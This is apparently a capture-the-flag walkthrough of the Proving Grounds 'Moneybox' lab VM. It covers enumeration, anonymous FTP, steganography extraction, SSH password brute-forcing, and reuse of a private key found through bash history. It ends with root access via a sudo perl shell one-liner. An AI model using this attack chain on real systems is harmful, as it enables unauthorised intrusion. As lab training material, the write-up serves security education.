








# PG Play - Moneybox

#### Ip: 192.168.235.230
#### Name: Moneybox
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ sudo nmap -p-  --min-rate 10000 192.168.235.230 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 16:21 CDT
Nmap scan report for 192.168.235.230
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.177
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: MoneyBox
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```

Checking out the site on port 80 we find a basic static page:



Using feroxbuster to scan for directories, we find a `/blogs` page:





If we check out the source code we find a comment way down at the bottom of the page:

```text
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

Navigating to http://192.168.235.230/S3cr3t-T3xt/ we find another static page:



And another comment buried in the page source: `<!..Secret Key 3xtr4ctd4t4 >`

Not positive what to make of this, so lets keep on enumerating.

Looking at FTP I see anonymous access is enabled, and there is an image we can grab:

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ ftp 192.168.235.230                                                                                         
Connected to 192.168.235.230.
220 (vsFTPd 3.0.3)
Name (192.168.235.230:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||60881|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
ftp> get trytofind.jpg
local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||16996|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).
100% |********************************************************************************|  1068 KiB  471.08 KiB/s    00:00 ETA
226 Transfer complete.
1093656 bytes received in 00:02 (457.54 KiB/s)
```

Taking a look at the image we find a cool hacker-cat:


### Exploitation

Using steghide and the credential 3xtr4ctd4t4 discovered earlier, we are able to see there is some steganography in the image and we can extract a file called data.txt:

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ steghide extract -sf trytofind.jpg 
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ cat data.txt 
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Cool, now we have a username and also know that there may be some weak password use here too. 

Lets try and crack renu's password for SSH using hydra:



Nice, that worked!

We can now SSH in and grab the local.txt flag:

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ ssh renu@192.168.235.230          
The authenticity of host '192.168.235.230 (192.168.235.230)' can't be established.
ED25519 key fingerprint is SHA256:4skFgbTuZiVgZGtWwAh5WRXgKXTdP7U5BhYUsIg9nWw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.235.230' (ED25519) to the list of known hosts.
renu@192.168.235.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ whoami
renu
renu@MoneyBox:~$ hostname
MoneyBox
```



### Privilege Escalation

In renu's directory we notice that the .bash_history file is not empty or dumping to `/dev/null`:

```text
renu@MoneyBox:~$ ls -la
total 40
drwxr-xr-x 5 renu renu 4096 Oct 11  2022 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 renu renu  642 Feb 26  2021 .bash_history
-rw-r--r-- 1 renu renu  220 Apr 17  2019 .bash_logout
-rw-r--r-- 1 renu renu 3526 Apr 17  2019 .bashrc
drwxr-xr-x 3 root root 4096 Feb 26  2021 ftp
drwxr-xr-x 3 renu renu 4096 Feb 26  2021 .local
-rw-r--r-- 1 root root   33 Sep  5 14:20 local.txt
-rw-r--r-- 1 renu renu  807 Apr 17  2019 .profile
drwx------ 2 renu renu 4096 Feb 26  2021 .ssh
renu@MoneyBox:~$ cat .bash_history
cler
ls
ls -la
cd /home
ls
clear
cd
ls
ls -la
exit
clear
ls
ls -la
cd /home
ls
cd lily
ls
ls -la
clear
cd
clear
ssh-keygen -t rsa
clear
cd .ssh
ls
ssh-copy-id lily@192.168.43.80
clear
cd
cd -
ls -l
chmod 400 id_rsa
ls -l
ssh -i id_rsa lily@192.168.43.80
clear
ssh -i id_rsa lily@192.168.43.80
```

Interesting, looks like renu is using an id_rsa key to SSH in as lily. Lets try the key in their .ssh folder to do this:

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ ssh -i id_rsa lily@192.168.235.230
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80
lily@MoneyBox:~$ whoami
lily
```

Cool, that worked. Taking a look at what the user lily can run as sudo, we find perl:

```text
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Heading to https://gtfobins.github.io/gtfobins/perl/#sudo we get the exact command we'll need to exploit this:



Lets try it:

```text
lily@MoneyBox:~$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! We're now root on this machine. All that's left to do now is grab the final flag:



Thanks for following along!

-Ryan

----------------------------------------------
